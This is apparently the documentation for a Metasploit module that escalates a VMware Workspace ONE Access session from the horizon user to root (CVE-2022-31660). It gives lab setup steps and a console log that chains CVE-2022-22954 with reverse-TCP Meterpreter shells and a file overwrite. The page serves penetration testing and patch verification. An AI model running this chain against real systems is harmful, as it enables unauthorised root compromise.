 ## Vulnerable Application
VMware Workspace ONE Access contains a vulnerability whereby the horizon user can escalate their privileges to those of
the root user by modifying a file and then restarting the vmware-certproxy service which invokes it. The service control
is permitted via the sudo configuration without a password.

### Setup

To exploit this vulnerability in conjunction with CVE-2022-22954, follow [Installing and Configuring VMware Workspace
ONE Access] or simply import the OVA into a **VMware hypervisor**. The target should be vulnerable to both
vulnerabilities out of the box.

The HW-150533, HW-154129, and HW-156875 patches may be optionally applied. In this case, a session will need to be
opened by some means to the appliance as the `horizon` user in order to be exploitable. This is most easily accomplished
by [resetting the root password], logging in locally, and then configuring SSH. Patches can be obtained from [VMware's
Website]. Steps to reset the `root` password are available [here].

[Installing and Configuring VMware Workspace ONE Access]: https://docs.vmware.com/en/VMware-Workspace-ONE-Access/21.08/workspace_one_access_install/GUID-0FABD001-050B-4A54-B100-2FA4E8F55613.html
[VMware's Website]: https://customerconnect.vmware.com/en/downloads/details?downloadGroup=WS1A_ONPREM_210801&productId=1192&rPId=79985
[resetting the root password]: https://kb.vmware.com/s/article/76530

## Verification Steps

1. Setup a vulnerable VMware instance (see the steps above).
2. Start msfconsole.
3. Obtain a session on the vulnerable instance.
    * It is recommend to use either `exploit/linux/http/vmware_workspace_one_access_cve_2022_22954` if the target is
      vulnerable to it or, alternatively, `exploit/multi/ssh/sshexec`.
4. Do: `set SESSION -1`
5. Optionally set the PAYLOAD and related options.
6. Do: `run`
7. If the target is vulnerable, the payload should be executed.

## Options

## Scenarios

### VMware Workspace ONE Access 21.08.0.1
In the following scenario, initial access is gained by first exploiting CVE-2022-22954. Once the session is opened, it
is elevated to root by exploiting CVE-2022-31660.

```
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > show options

Module options (exploit/linux/http/vmware_workspace_one_access_cve_2022_22954):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.159.98   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)


Payload options (cmd/unix/python/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.159.128  yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix Command


msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > exploit

[*] Started reverse TCP handler on 192.168.159.128:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[*] Executing cmd/unix/python/meterpreter/reverse_tcp (Unix Command)
[*] Sending stage (40132 bytes) to 192.168.159.98
[*] Meterpreter session 1 opened (192.168.159.128:4444 -> 192.168.159.98:42312) at 2022-08-02 16:26:16 -0400

meterpreter > sysinfo
Computer        : photon-machine
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter > getuid
Server username: horizon
meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(linux/http/vmware_workspace_one_access_cve_2022_22954) > use exploit/linux/local/vmware_workspace_one_access_certproxy_lpe
[*] No payload configured, defaulting to cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/local/vmware_workspace_one_access_certproxy_lpe) > set SESSION -1
SESSION => -1
msf6 exploit(linux/local/vmware_workspace_one_access_certproxy_lpe) > run

[*] Started reverse TCP handler on 192.168.250.134:4444
[*] Backing up the original file...
[*] Writing '/opt/vmware/certproxy/bin/cert-proxy.sh' (601 bytes) ...
[*] Triggering the payload...
[*] Sending stage (40132 bytes) to 192.168.250.237
[*] Meterpreter session 2 opened (192.168.250.134:4444 -> 192.168.250.237:63493) at 2022-08-02 16:26:57 -0400
[*] Restoring file contents...
[*] Restoring file permissions...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer        : photon-machine
OS              : Linux 4.19.217-1.ph3 #1-photon SMP Thu Dec 2 02:29:27 UTC 2021
Architecture    : x64
System Language : en_US
Meterpreter     : python/linux
meterpreter >
```
